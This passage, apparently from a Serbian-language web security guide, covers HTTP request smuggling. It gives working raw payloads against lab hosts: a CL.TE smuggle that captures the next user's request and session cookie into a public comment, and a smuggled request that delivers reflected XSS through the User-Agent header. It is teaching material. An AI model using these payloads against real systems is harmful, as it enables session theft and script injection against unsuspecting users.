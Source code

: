 Dodavanjem sledećeg zahteva kao vrednosti parametra, možete sačuvati zahtev sledećeg klijenta:

```
POST / HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 319
Connection: keep-alive
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Length: 659
Content-Type: application/x-www-form-urlencoded
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi

csrf=gpGAVAbj7pKq7VfFh45CAICeFCnancCM&postId=4&name=asdfghjklo&email=email%40email.com&comment=
```

U ovom scenariju, **parametar komentara** je namenjen za čuvanje sadržaja unutar sekcije komentara na javno dostupnoj stranici. Kao rezultat, sadržaj narednog zahteva će se pojaviti kao komentar.

Međutim, ova tehnika ima svoja ograničenja. Generalno, hvata podatke samo do granice parametra korišćene u prokrijumčarenom zahtevu. Za URL-kodirane forme, ova granica je znak `&`. To znači da će uhvaćeni sadržaj iz zahteva žrtve stati na prvom `&`, što može biti deo upita.

Dodatno, važno je napomenuti da je ovaj pristup takođe izvodljiv sa ranjivošću TE.CL. U takvim slučajevima, zahtev bi trebalo da se završi sa `search=\r\n0`. Bez obzira na znakove nove linije, vrednosti će biti dodate parametru pretrage.

### Korišćenje HTTP zahteva za prokrijumčarenje radi iskorišćavanja reflektovanog XSS-a

HTTP zahtev za prokrijumčarenje može se iskoristiti za iskorišćavanje veb stranica koje su ranjive na **Reflektovani XSS**, nudeći značajne prednosti:

* Interakcija sa ciljnim korisnicima **nije potrebna**.
* Omogućava iskorišćavanje XSS-a u delovima zahteva koji su **normalno nedostupni**, poput zaglavlja HTTP zahteva.

U scenarijima gde je veb sajt podložan Reflektovanom XSS-u putem zaglavlja User-Agent, sledeći payload demonstrira kako iskoristiti ovu ranjivost:

```
POST / HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Cookie: session=ac311fa41f0aa1e880b0594d008d009e
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 213
Content-Type: application/x-www-form-urlencoded

0

GET /post?postId=2 HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: "><script>alert(1)</script>
Content-Length: 10
Content-Type: application/x-www-form-urlencoded

A=
```
